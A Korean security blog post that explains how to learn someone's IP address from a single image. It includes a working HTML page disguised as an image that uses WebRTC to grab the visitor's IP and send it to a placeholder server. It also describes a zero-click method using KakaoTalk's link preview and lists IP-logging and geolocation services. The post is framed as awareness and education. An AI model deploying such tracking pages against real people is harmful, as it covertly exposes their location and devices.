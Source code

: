 ```yaml
---
title: "사진 한 장으로 아이피 추적하기4 -결론과 총정리"
categories: [security]
tags:
  - ects
date: 2025-04-03
---
```

---

# 📸 사진 한 장으로 아이피를 추적해보자!

우리는 평소에 별 생각 없이 카카오톡으로 이미지를 주고받는다. 그런데 이 **단 한 장의 이미지**가 상대방의 **공용 IP 주소**와 **접속 환경**을 추적하는 수단이 될 수 있다는 걸 아는가?

---

## 🧠 1. WebRTC를 활용한 IP 추적 원리

**WebRTC**는 브라우저 기반의 P2P 기술로, 영상통화나 파일 전송에 쓰인다. 이 기술은 브라우저 간 직접 통신을 만들기 때문에, 특정 조건이 맞으면 상대방의 공용 IP 주소(심지어 내부 IP까지도!)를 노출시킬 수 있다.

### ✅ 기본 절차
1. 상대방이 WebRTC 추적 기능이 포함된 웹사이트에 접속하도록 유도
2. STUN 서버를 통해 상대방의 IP 정보를 수집
3. 수집한 IP를 기반으로 위치 추정

---

## 🖼️ 2. 이미지를 이용한 WebRTC 유도 방식

이미지만으로 WebRTC를 실행할 수는 없지만, **이미지를 가장한 HTML 페이지**나 **이미지에 연결된 링크**를 통해 상대방을 WebRTC 페이지로 유도할 수 있다.

### 📌 방법 A. HTML 파일을 이미지처럼 위장

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading Image...</title>
    <script>
        async function getIPs() {
            const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
            pc.createDataChannel("");
            pc.createOffer().then(offer => pc.setLocalDescription(offer));
            pc.onicecandidate = event => {
                if (event.candidate) {
                    fetch("https://yourserver.com/log_ip", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ ip: event.candidate.candidate })
                    });
                }
            };
        }
        getIPs();
    </script>
</head>
<body>
    <img src="your_image.jpg" alt="Image Loading...">
</body>
</html>
```

- 상대방이 이 페이지를 열면, WebRTC가 실행되고 `https://yourserver.com/log_ip`로 IP 정보가 전송된다.
- VPN이 아니면 공용 IP 주소가 정확하게 잡힌다.

> ⚠️ 단점: 링크를 열어야 하며, 브라우저에서 실행돼야 한다. 모바일에선 제한될 수 있다.

---

## ✅ 3. 실전 성공 사례: 카카오톡 '사진 미리보기'로 IP 추적

우리는 WebRTC보다 현실적인 방법으로, **카카오톡의 외부 이미지 미리보기 기능**을 활용해 상대방의 IP 추적에 성공했다.

### 🎯 방식 요약
- 외부 서버에 이미지를 업로드
- 해당 이미지의 URL을 카카오톡으로 전송
- 카카오톡은 상대방 단말기에서 이미지를 불러오며 미리보기 생성
- 이 과정에서 서버에 요청이 찍히고, IP 수집 가능

### 💡 핵심 포인트
- **상대방이 클릭하지 않아도**, 단순히 대화창을 열기만 해도 IP가 수집됨
- 미리보기 이미지를 외부 서버에서 불러오기 때문에 발생하는 현상

---

## 📄 실제 서버 로그 예시

```log
[접속] 2025-04-02 13:11:58
IP: 121.162.88.214
User-Agent: Mozilla/5.0 (Linux; Android 12; SM-G991N)
Referrer: KakaoTalk
Device: Samsung Galaxy S21
```

이 정보를 통해, 우리는 다음과 같은 내용을 추출할 수 있었다:
- 접속 지역 (대략적)
- 통신사 (KT, SKT 등)
- 기기 모델명
- 브라우저 및 운영체제

---

## 🌍 4. IP 분석에 사용된 도구들

| 도구 | 기능 |
|------|------|
| [ipinfo.io](https://ipinfo.io) | IP 위치, ISP, 도시, 위도/경도 정보 제공 |
| [db-ip.com](https://db-ip.com) | 좀 더 정확한 위치 및 기업/학교 정보 |
| [ip-api.com](https://ip-api.com) | JSON 형태로 제공, API 연동 쉬움 |
| [whois.domaintools.com](https://whois.domaintools.com) | 통신사 및 네트워크 소유자 확인 |

### 📌 예시 결과
```
IP: 121.162.88.214
도시: 인천광역시
통신사: SK브로드밴드
ASN: AS9318
```

---

## ⚠️ 주의사항 및 윤리적 고려

- 본 기술은 **공격용이 아니라 실험, 연구, 보안 교육** 목적으로 작성되었습니다.
- 카카오톡이나 WebRTC의 취약점을 악용할 경우 **정보통신망법, 개인정보보호법 등에 따라 형사처벌** 받을 수 있습니다.
- 실제 적용 시 반드시 **법적 절차**와 **윤리적 판단**을 기반으로 해야 합니다.

---

## 🧾 결론

| 방식 | 클릭 필요 여부 | 성공률 | 비고 |
|------|----------------|---------|------|
| WebRTC 링크 유도 | ✅ 필요 | 중간 | 브라우저 열람 필요 |
| 카카오톡 이미지 미리보기 | ❌ 불필요 | 매우 높음 | 실제 실험에서 성공 |

📌 **우리의 결론은?**  
"카톡으로 온 아무 이미지도 쉽게 열지 말자."  
단 한 장의 짤방, 단 한 장의 사진이 당신의 위치를 말해줄 수 있다.

---

### 💡 관련 도구 및 링크

- [Grabify IP Logger](https://grabify.link)
- [iplogger.org](https://iplogger.org)
- [ipinfo.io](https://ipinfo.io)
- [db-ip.com](https://db-ip.com)

---

> 작성자 주: 이 글은 실제 실험을 바탕으로 작성되었으며, 보안 인식 제고와 기술적 학습을 목적으로 합니다.
